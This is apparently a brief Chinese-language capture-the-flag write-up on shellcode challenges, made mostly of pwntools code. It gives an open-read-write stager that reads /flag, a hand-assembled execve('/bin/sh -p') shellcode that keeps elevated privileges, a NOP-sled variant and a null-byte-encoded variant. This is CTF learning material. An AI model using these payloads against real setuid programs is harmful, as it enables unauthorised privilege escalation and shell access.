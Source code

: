 ### 1

ORW 方法:

```python
# read(0, address of rip, 1000)
sc1 = """
xor rax, rax
xor rdi, rdi
lea rsi, [rip]
mov rdx, 1000  # <- rip
syscall        # sc2 comes after syscall
"""
# orw
sc2 = shellcraft.readfile("/flag", 1)

p.send(asm(sc1))
p.send(nop*16 + asm(sc2))
```

拿 Shell 方法:

```python
# execve("/bin/sh\x00",["/bin/sh\x00", "-p\x00\x00"],NULL)
sc = """
mov rax, 59                # execve
mov rbx, 0x68732f6e69622f  # "/bin/sh"
push rbx
mov rdi, rsp               # rdi -> "/bin/sh" on stack
push 0x702d                # "-p"
mov rcx, rsp               # rcx -> "-p" on stack
push 0
push rcx
push rdi
mov rsi, rsp               # rsi -> [rdi, rcx, 0] on stack -> ["/bin/sh","-p",NULL]
mov rdx, 0                 # NULL
syscall
"""

p.send(asm(sc))
```

### 2

nop sled，沿用上题的 `sc`：

```python
p.send(nop*0x800 + asm(sc))
```

### 3

编码去掉 NULL byte，沿用上题的 `sc`：

```python
p.send(encoder.encode(asm(sc), b'\x00'))
```

